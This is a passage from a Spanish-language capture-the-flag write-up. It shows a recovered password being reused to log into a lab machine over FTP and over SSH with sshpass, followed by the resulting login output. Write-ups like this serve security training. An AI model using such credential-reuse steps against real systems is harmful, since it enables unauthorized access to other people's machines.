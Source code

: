Y la credencial `Buck3tH4TF0RM3!`
![Write-up Image](images/Screenshot_8.png)

Podemos ver que ahora por FTP podemos acceder con estas credenciales y ver la flag del usuario.
```shell
$ ftp nathan@10.129.237.34
Connected to 10.129.237.34.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||57273|)
150 Here comes the directory listing.
-r--------    1 1001     1001           33 Aug 20 14:04 user.txt
```

Pero también son válidas para acceder por SSH
```shell
$ sshpass -p 'Buck3tH4TF0RM3!' ssh nathan@10.129.237.34
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Aug 20 14:38:54 UTC 2024

  System load:           0.0
  Usage of /:            36.7% of 8.73GB
  Memory usage:          21%
  Swap usage:            0%
  Processes:             228
  Users logged in:       0
  IPv4 address for eth0: 10.129.237.34
  IPv6 address for eth0: dead:beef::250:56ff:fe94:7af0

  => There are 4 zombie processes.

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
nathan@cap:~$ ls
```